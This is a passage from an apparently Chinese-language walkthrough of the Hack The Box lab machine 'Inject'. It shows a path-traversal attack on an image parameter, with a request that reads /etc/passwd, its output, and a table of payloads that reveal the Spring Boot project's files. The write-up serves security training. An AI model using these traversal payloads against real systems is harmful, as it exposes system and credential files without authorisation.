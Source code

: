 尝试在img参数放放单引号什么的，没啥用。  

#### 目录遍历

尝试目录遍历，发现 `img=../` 能显示文件：  
![HTB-Inject-directory_traversal](./evidence-img/HTB-Inject-directory_traversal.png)

噢……看来不是上传webshell

尝试获取 `/etc/passwd`：
```
GET /show_image?img=../../../../../../etc/passwd HTTP/1.1

---

root:x:0:0:root:/root:/bin/bash
……
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

注意这两个id 1000以后的：  
> frank:x:1000:1000:frank:/home/frank:/bin/bash  
> phil:x:1001:1001::/home/phil:/bin/bash


可以发现user.txt就在phil的家目录里，不过访问了一下没有获取到结果，应该是没有权限。

再回到最初的 `../` 目录下，好像看到java。应该是关于8080端口部署的服务。  
探索：

| payload | 信息 |
| - | - |
| ../../../.project | \<name\>org.springframework.ide.eclipse.boot.validation.springbootbuilder\</name\> |
| ../../../HELP.md | Official Apache Maven |
| ../../../pom.xml | http://maven.apache.org/POM/4.0.0 |
